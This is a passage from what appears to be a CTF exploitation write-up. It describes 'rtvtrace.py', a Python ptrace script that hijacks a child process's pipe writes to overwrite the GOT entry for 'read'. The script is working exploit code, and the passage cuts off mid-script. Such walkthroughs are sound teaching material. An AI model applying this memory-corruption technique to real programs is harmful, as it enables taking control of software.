 We can see that by using an i value of 03c3c3c2 we are able to overwrite `read` directly.

##  rtvtrace.py - ptrace to my heart

I wrote a script using python-ptrace to modify the values of i and runtime that are sent in the pipe by the child process. To go faster, I actually used the Gdb implementation provided with the library which allows to easily create breakpoints and modify memory and registry values.

The code is actually quite simple. It sets 2 breakpoints, one before the write of i in the pipe and the second before the write of runtime. In each case eax points to the data that will be written, we simply  point it to another address with our own supplied data. Note that in this debugger, breakpoint are removed after being hit so they will be executed only for the first command. To test that it works, we overwrite the address of read in the GOT with 0x41424344.

```python
import sys
import struct

from gdb import Gdb
from ptrace.debugger import PtraceDebugger, ProcessSignal, ProcessExit

pid = sys.argv[1]
gdb = Gdb()
gdb.debugger = PtraceDebugger()
gdb.process  = None

gdb.attachProcess(pid)
print("[!] attached to {0}".format(pid))

#gdb.breakpoint("0x80487e0")
gdb.breakpoint("0x080487d6")
gdb.breakpoint("0x08048802")
while(True):

    try:
        gdb.cont()
        eip = gdb.process.getreg("eip")
        print("EIP: {0}".format(hex(eip)))

        #if eip == 0x80487e0:
        #    print("pipe descriptor: {0}".format(hex(gdb.process.getreg("eax"))))

        # WRITE WHERE
        if eip == 0x80487d6:
            eax = gdb.process.getreg("eax")
            i = gdb.process.readBytes(eax, 4)
            print("Current id loc: {0} value : {1}".format(hex(eax), struct.unpack("<I",i)))
            print("Changing data location for write of id...")
            gdb.process.writeBytes(0x0804a060, struct.pack("<I",63161282))
            gdb.process.setreg("eax", 0x0804a060)

        # WRITE WHAT
        if eip == 0x08048802:
            gdb.process.writeBytes(0x0804a060, struct.pack("<I", 0x08048828) + "\xFF\xF1\xF2\xF3")
            gdb.process.setreg("eax", 0x0804a060)



    except ProcessSignal, event:
        print("[!] Event {0}".format(event))
        continue
    except ProcessExit, event:
        print(event)
    except Exception, event:
```